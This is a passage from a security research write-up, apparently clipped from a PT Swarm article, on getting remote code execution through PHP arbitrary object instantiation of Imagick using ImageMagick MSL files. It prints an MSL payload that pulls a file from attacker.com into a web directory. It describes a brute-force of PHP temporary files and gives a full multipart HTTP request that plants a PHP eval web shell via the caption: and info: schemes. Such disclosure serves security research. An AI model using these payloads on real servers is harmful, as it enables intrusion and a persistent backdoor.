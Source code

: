 2. Let’s create an MSL file that will copy this image from our HTTP server to a writable web directory. [](https://read.readwise.io/read/01jv262h4k0998nvzpf6kn38h7)

```xml
<?xml version="1.0" encoding="UTF-8"?> <image> <read filename="http://attacker.com/positive.png" /> <write filename="/var/lib/ldap-account-manager/tmp/positive.php" /> </image> 
```

3. Let’s put it all together in Burp Suite Intruder:
![](https://swarm.ptsecurity.com/wp-content/uploads/2022/07/13.png) [](https://read.readwise.io/read/01jv26415h2pqn94nxv9tk9v12)

Additionally, I enabled the *denial-of-service mode* in Burp Intruder to prevent descriptor exhaustion of Burp Suite, which might happen because of incorrect TCP handling on the server side. [](https://read.readwise.io/read/01jv264h5b6damw4mrzhqerzty)

After all 20,000 multipart requests were sent, I brute forced the `/tmp/phpXXXXXX` files via Burp Intruder [](https://read.readwise.io/read/01jv264r8p3nh9kpypp7c2q3sb)

## RCE #2: VID Scheme

By using the `vid:` scheme, we can include our temporary file with the MSL content without knowing its name:

![](https://swarm.ptsecurity.com/wp-content/uploads/2022/07/18.png)
*Including an MSL file without knowing its name*

After this, I discovered quite interesting `caption:` and `info:` schemes. The combination of both allows to eliminate an out-of-band connection, and create a web shell in one fell swoop:
![](https://swarm.ptsecurity.com/wp-content/uploads/2022/07/19.png)
*Uploading a web shell via caption: and info: schemes*


Here is the final payload for exploiting Arbitrary Object Instantiations: [](https://read.readwise.io/read/01jv268zk7jt3gpxq9r52dwwvh)
```http
Class Name: Imagick
Argument Value: vid:msl:/tmp/php*

-- Request Data --
Content-Type: multipart/form-data; boundary=ABC
Content-Length: ...
Connection: close
--ABC
Content-Disposition: form-data; name="swarm"; filename="swarm.msl"
Content-Type: text/plain
<?xml version="1.0" encoding="UTF-8"?>
<image>
<read filename="caption:&lt;?php @eval(@$_REQUEST['a']); ?&gt;" />
<!-- Relative paths such as info:./../../uploads/swarm.php can be used as well -->
<write filename="info:/var/www/swarm.php" />
</image>
--ABC-- 
```


